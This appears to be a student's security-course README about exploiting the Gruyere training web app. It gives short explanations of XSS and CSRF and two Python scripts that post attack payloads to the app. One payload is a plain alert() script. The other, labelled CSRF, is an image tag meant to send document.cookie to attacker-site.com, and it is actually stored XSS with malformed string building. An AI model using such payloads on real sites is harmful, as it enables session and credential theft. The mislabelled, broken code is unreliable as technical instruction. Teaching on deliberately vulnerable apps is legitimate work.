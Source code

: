 # Cloud-Security-2023
Create code that can automatically exploit its documented vulnerabilities.

**Cross-Site Scripting(XSS attack)**-harmful because they can be used to steal sensitive information, like login credentials or personal data from users.
How to execute an XSS attack- the payload variable contains a script tag with malicious JavaScript code. Problem arises if the server doesn't correctly/properly sanitize or encode the feedback parameter when rendering it in an HTML response. Consequence- script modified on the client side (XSS attack)

**Python Code for Cross-Site Scripting**
import requests  
payload = "<script>alert('XSS Attack!');</script>" #Payload variable mentioned above- site of vulnerability 
document_id = "your-document-id"
url = f"http://gruyere-app.com/feedback?id={document_id}" #This is the target website whereby the document ID has been appended to reach specific endpoint
data = {"feedback": payload}  #key-value pair received by the server where the data is processed(ie value which the payload variable is processed)
response = requests.post(url, data=data)
print(response.text)

**Cross Site Request Forgery (CSRF)**-tricks you into performing actions (unknowingly) on a website you trust, using your already authenticated session. It achieves this using login cookies and after authentication, carries out the request made. This request is a CSRF attack and can be mitigated using anti-CSRF tokens.
**Python Code for Cross-Site Request Forgery**
import requests  
payload = '<img src="http://attacker-site.com/steal?cookie=" + document.cookie + \'">\';' #Assigning a payload variable which contains malicious content in the form of html image tag sourced from the url shown.'document.cookie' is important as it stores the cookies associated with the web page the attacker wants to make a request to. 
url = "http://gruyere-app.com/settings" #Target URL
data = {"description": payload}
response = requests.post(url, data=data) #'post' allows us to send a http request and in this case, to the target URL.
print(response.text)

